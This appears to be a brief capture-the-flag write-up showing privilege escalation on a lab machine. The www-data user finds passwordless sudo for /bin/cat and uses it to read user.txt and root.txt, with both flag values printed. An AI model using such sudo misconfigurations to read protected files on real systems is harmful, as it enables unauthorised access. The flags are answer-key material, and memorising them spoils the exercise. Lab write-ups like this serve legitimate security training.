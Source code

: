 1) I see all the sudo privilegies:
```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

2) I read the user.txt :
```
$ cat /home/merlin/user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

3) I read the root.txt:
```
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```